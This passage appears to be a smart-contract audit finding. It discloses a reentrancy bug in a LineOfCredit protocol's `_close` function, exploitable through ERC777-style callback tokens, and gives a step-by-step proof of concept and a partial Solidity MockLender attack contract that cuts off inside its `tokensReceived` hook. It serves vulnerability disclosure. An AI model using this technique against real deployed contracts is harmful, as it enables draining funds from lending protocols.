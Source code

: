 
## Proof of Concept

Reentrancy is possible if the borrower is lending tokens that can change the control flow. Such tokens are based on ERC20 such as ERC777, ERC223 or other customized ERC20 tokens that alert the receiver of transactions.
Example of a real-world popular token that can change control flow is PNT (pNetwork). 
As the protocol supports any token listed on the oracle, if the oracle currently supports (or will support in the future) a feed of the above tokens, the bug is exploitable.

If a reentrancy occurs in the `_close(credit, id)` function, the `credit[id]` state variable is cleared only after sendings tokens to the lender. 
A lender can abuse this by reentrancy to `close(id)` and retrieve `credit.deposit + credit.interestRepaid` amount of `credit.token`. A lender can repeat this processes as long as LineOfCredit has funds available.

The POC will demonstrate the following flow:
1. Borrower  adds a new credit with lender1 on 1000 tokens.
2. Borrower lends 1000 from lender1
3. Borrower repays debt 
4. Borrower adds a new credit with lender2 on 1000 tokens
5. Borrower closes debt with lender1
6. Lender1 receives 2000 tokens. 

Add the `MockLender.sol` to mock folder.
```
pragma solidity 0.8.9;

import { ILineOfCredit } from "../interfaces/ILineOfCredit.sol";
import { Token777 } from "./Token777.sol";

contract MockLender {
    address owner;
    ILineOfCredit line;
    bytes32 id;
    bool lock;
    
    event GotMoney(uint256 amount);

    constructor(address _line) public {
        line = ILineOfCredit(_line);
        owner = msg.sender;
    }

    function addCredit(
        uint128 drate,
        uint128 frate,
        uint256 amount,
        address token
    ) external {
        require(msg.sender == owner, "Only callable by owner");
        Token777(token).approve(address(line), amount);
        Token777(token).approve(address(owner), type(uint256).max);
        Token777(token).mockAddToRegistry();
        id = line.addCredit(drate, frate, amount, token, address(this));
    }
    function tokensReceived(
        address operator,
        address from,
        address to,
        uint256 amount,
        bytes calldata userData,
        bytes calldata operatorData
    ) external {
        emit GotMoney(amount);
```
